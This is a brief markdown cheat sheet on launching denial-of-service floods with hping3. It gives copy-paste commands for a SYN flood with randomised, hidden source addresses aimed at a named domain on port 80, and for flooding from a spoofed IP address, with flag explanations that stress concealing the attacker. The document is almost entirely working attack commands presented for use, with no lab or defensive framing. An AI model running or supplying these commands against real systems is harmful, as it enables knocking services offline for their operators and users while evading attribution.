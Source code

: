 # DOS Flood with Hping3


sudo apt install hping3 -y

`sudo hping3 -S --flood -V -p <port> <ip>`
  
Flood Using SYN Packets Against Port 80
  
`sudo hping3 lacampora.org -q -n -d 120 -S -p 80 --flood --rand-source`
  
-q: brief output
-n: shows target IP instead of host.
-d 120: sets packet size
–rand-source: hides IP address.
-S: specifies SYN packets.
–flood: replies will be ignored and packets will be sent as fast as possible.
-V: Verbosity.
-p: port
  
  
Flood From a Fake IP Address With hping3
  
`sudo hping3 -a 190.0.174.10 190.0.175.100 -S -q -p 80`
  
  
–interface: wlan0 or whatever network card name you have.
  
More info in article https://linuxhint.com/hping3/
